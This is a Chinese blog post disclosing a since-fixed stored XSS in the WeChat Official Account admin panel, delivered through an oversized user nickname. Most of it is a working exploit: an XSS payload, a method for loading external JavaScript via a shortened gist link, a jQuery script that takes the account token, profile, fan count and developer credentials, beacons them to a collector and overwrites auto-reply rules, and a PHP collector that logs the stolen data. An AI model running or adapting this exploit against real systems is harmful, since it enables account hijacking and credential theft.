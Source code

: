 ```yaml
---
layout: post
title: 微信公众号后台跨站漏洞 EXP (已修复)
---
```


#### Vul Description

 - 提交时间：2014-08-19 15:04:14
 - 修复时间：2014-08-19 20:00:11
 
问题存在于微信公众号后台查看消息时用户名处的触发。#### Bypass nickname length limit

微信对用户名进行了长度限制，使用安卓版微信可以绕过长度限制，这里测试使用的红米手机微信5.2：

![wechat_version](/images/FB10EC57-738D-4FB1-9A3D-E85E2E1EFBD8.png)#### Detailed

绕过名字长度后，将微信用户名修改为：```test/*<img/src=@/onerror=alert(1)>```
回复公众号，后台查看触发：

![wechat_xss_demo1](/images/FEEF04DC-70B4-4B61-935D-482D1C34ABB2.png)

之后我们考虑如何嵌入外部JS以方便的调试接下来要编写的Exploit，微信公众号后台使用https，需要引用外部的https js资源才行，之后我找到了：[https://bitly.com/shorten/](https://bitly.com/shorten/)

使用bitly将放置在github的https js资源连接进行网址缩短，例如：

	https://gist.githubusercontent.com/Evi1m0/497330da6935a30/raw/0c8ab3d6fec57c8052262e85c315549f1d0e869a/1.js
	
连接缩短：bit.ly/1dPaWIx ，生成后默认为http修改为https即可。

最后嵌入JS的长度为：

![wechat_xss_demo2](/images/258F0D1C-F712-4459-8040-B5CF7B641278.png)

#### Exploit

 - 获取公众号注册信息、登录邮箱等个人信息
 - 获取公众号粉丝数量
 - 普通模式则篡改自动回复的内容
 - 开发模式则偷取Key值和连接地址
 - 获取Token
 - More

```Wechat-exp.js```: 微信公众号后台使用jQuery，使用jQuery编写此exp。

{% highlight javascript %}
/*
 * mp.weixin.qq.com exp.js
 * author: Evi1m0 & Chichou
 * date: 20140313
 */

(function() {
    // 在IE7以下支持JSON格式化
    if (typeof JSON.stringify !== 'function') {
        JSON.stringify = function(object) {
            var array = [];
            for (var i in object) {
                var s = object[i], v = (typeof s == 'object' && s != null) ? JSON.stringify(s) :
                    (/^(string|number)$/.test(typeof s) ? "'" + s + "'" : s);
                array.push("'" + i + "':" + v);
            }
            return '{' + array.join(',') + '}';
        }
    }

    // send data
    var send = function(item, data) {
        if(typeof data == 'object')
            data = JSON.stringify(data);
        new Image().src = ["http://localhost/wxprobe.php?subject=wechat&uin=", wx.data.uin, "&item=", item, "&data=", data].join('');
    }

    // 公号信息
    var user = {
        token: wx.data.t,
        uin: wx.data.uin,
        name: wx.data.user_name
    };
    send('id', user);

    // 粉丝人数
    $.get('/cgi-bin/home?t=home/index&lang=zh_CN&token=' + user.token, function(data) {
      var dom = $(data);
      var fans={};
      var fans = $('.number')[2].innerHTML;
      send('fans', fans);
    });

    // 详细资料
    $.get('/cgi-bin/settingpage?t=setting/index&action=index&token=' + user.token, function(data) {
        var dom = $(data);
        var profile = {};
        dom.find('li.account_setting_item .tips,li.account_setting_item .desc').remove();
        dom.find('li.account_setting_item').each(function(i, e) {
            profile[$.trim($(e).find("h4").text())] = $.trim($(e).find('.meta_content').text());
        });
        send('profile', profile);
    });

    // 开发模式
    $.get('/cgi-bin/advanced?action=dev&t=advanced/dev&token=' + user.token, function(data) {
        var dom = $(data); data = dom.find("#js_container_box .frm_input_box");
        var dev = {}
        $.each(['url', 'token'], function(i, e) {
            dev[e] = $.trim(e.innerHTML);
        });
        send('dev', dev);
    });

    //普通模式
    $.get('/cgi-bin/autoreply?t=ivr/reply&action=beadded&token=' + user.token, function(data) {
        var form = {
            token: wx.data.t,
            lang: wx.data.lang,
            random: Math.random(),
            f: 'json',
            ajax: 1,
            cgi: 'setreplyrule',
            fun: 'save',
            t: 'ajax-response',
            content: 'Attack Content'
        };

        var keyword = {'replytype': 'replytype : "', 'ruleid': 'rule_id : "'};
        for(var i in keyword) {
            if(data.indexOf(keyword[i]) === -1) {
                form[i] = '';
            } else {
                var left = data.indexOf(keyword[i]) + keyword[i].length, right = data.indexOf('"', left);
                form[i] = data.substring(left, right);
            }
        }

        //篡改
        $.post('/cgi-bin/setreplyrule', form);
    });
})();
{% endhighlight %}```wxprobe.php```: 服务端接受获取内容

    <?php

    /*
     * Wechat probe
     * author: <evi1m0#ff0000.cc>
     * 20140313
     */

    @header("Content-Type:text/html;charset=utf8");
    if (!(isset($_GET['subject']) && $_GET['subject'] === 'wechat')) die;

    //获取信息
    $uin = urldecode($_GET['uin']);
    $item = urldecode($_GET['item']);
    $data = urldecode($_GET['data']);

    //判断创建
    if(!file_exists('./wxdata.html')){
        $fp = fopen('./wxdata.html', 'a+');
        fwrite($fp,'<head><meta http-equiv="Content-Type" Content="text/html; charset=utf8" /> <title>wxdata</title></head>');
    }
    $fp = fopen('./wxdata.html', 'a+');
    fwrite($fp, htmlspecialchars($uin). "| <br>item: ". htmlspecialchars($item). "<br>Data: ". htmlspecialchars($data). "<hr><br>");
    fclose($fp);

    ?>
